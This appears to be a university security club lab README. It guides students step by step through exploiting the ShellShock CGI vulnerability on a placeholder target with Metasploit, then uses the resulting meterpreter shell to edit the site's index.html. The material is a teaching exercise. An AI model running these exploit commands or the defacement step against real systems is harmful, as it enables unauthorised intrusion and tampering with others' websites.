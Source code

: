 # RITSEC Academic Day - ShellShock 

## Setup
- Open 'VMWare Workstation Pro'
- Click on 'Kali Linux 2021' on the left side list of VMs
- Right click again on 'Kali Linux 2021' and click 'Settings'. 

![settings](settings.png)

- Select 'Network Adapter' and change it to 'Bridged'

![bridge](bridge.png)

- Hit the Play Button to start the VM.
    - Username: kali
    - Password: kali

## Viewing the Website
- Click the top left logo to search for firefox.
- Open your browser and head to http://<TARGET_IP>:8080

## Attacking the Box - Commands To Run
- Click the Black Box with the "$_" to open the terminal.

![terminal](terminal.PNG)

This will open the Metasploit Console.

1. `msfconsole`

![landing](landing.PNG)

Here, you are searching for the shellshock vulnerability to use.

2. `search shellshock`

![search](search.PNG)

This is selecting the shellshock exploit.

3. `use 1`

![use1](use1.PNG)

This is seeing the module and payload options that will be configured.

4. `options`

![options](options.PNG)

Setting the vulnerable cgi page to utilize.

5. `set targeturi /cgi-bin/vulnerable`

![targeturi](targeturi.PNG)

Setting the target hosting the site that we will attack.

6. `set rhosts <TARGET_IP>`

Setting the port the website is being hosted on.

7. `set rport 8080`

![rport](rport.PNG)

Attack the box!

7. `exploit`

![exploit](exploit.PNG)

## Modifying the Website

With your meterpreter shell, now you can modify the website. 

Most websites by default keep their files in `/var/www`. In our case, the `index.html` file contains the main page of the website. 

Use the `edit /var/www/index.html` command to edit the file. Add your name to the website!

![edit](edit.PNG)


- Once you are in the text editor, press the 'i' key to go into insert mode.
- Use the arrow keys to move down to the < li > section
- Once you add your name, hit the 'ESC' key, type ':wq' and hit 'Enter'

![nameadd](nameadd.PNG)

Now visit the website in your browser and see your name publicly hosted on the target site!!
